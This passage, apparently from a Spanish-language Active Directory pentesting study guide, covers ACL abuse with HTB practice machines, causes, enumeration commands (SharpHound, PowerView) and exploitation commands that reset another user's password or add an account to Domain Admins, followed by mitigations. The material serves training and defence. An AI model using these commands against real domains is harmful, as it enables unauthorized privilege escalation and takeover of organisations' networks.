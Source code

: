 ### Máquinas HTB para practicar
- **Blackfield** (Medium) - Camino a DCSync via ACLs
- **Intelligence** (Medium) - DCSync como objetivo final

---

## 6. ABUSO DE ACLs

### ¿Por qué ocurre?
- **Delegación excesiva:** Permisos demasiado amplios a usuarios/grupos
- **Configuración heredada:** Permisos que nunca se revisan/actualizan
- **Falta de comprensión:** Administradores que no entienden implicaciones de seguridad

### Mecánica del ataque
1. **Enumerar ACLs** de usuarios/grupos
2. **Identificar permisos peligrosos** (GenericAll, WriteDACL, etc.)
3. **Abusar permisos** para escalar privilegios
4. **Cadena de ACLs** hasta DA/EA

### Sistemas afectados
- **Todos los objetos de AD** (usuarios, grupos, OUs, etc.)
- **Problema universal** en AD sin hardening adecuado

### Detección y Explotación
**Localización:**
```bash
# BloodHound (mejor opción)
SharpHound.exe -c All

# PowerView manual
Get-DomainUser | Get-ObjectAcl | ? {$_.ActiveDirectoryRights -match "GenericAll"}

# Verificar permisos específicos
Get-DomainObjectAcl -Identity "Usuario Objetivo" | ? {$_.SecurityIdentifier -match "SID_USUARIO_ACTUAL"}
```

**Explotación:**
```bash
# GenericAll sobre usuario - reset password
net user "Usuario_Objetivo" "NuevaPassword123!" /domain

# WriteMember sobre grupo - añadirse a grupo
Add-DomainGroupMember -Identity "Domain Admins" -Members "Usuario_Actual"

# GenericAll sobre grupo - directamente añadirse
net group "Domain Admins" "Usuario_Actual" /add /domain
```

### Prevención/Mitigación
- **Revisión regular de ACLs** con herramientas como BloodHound
- **Principio de mínimo privilegio** en todas las delegaciones
- **Segmentación** de permisos administrativos
- **Monitoreo** de cambios en group membership
- **Auditorías automáticas** de cambios en ACLs
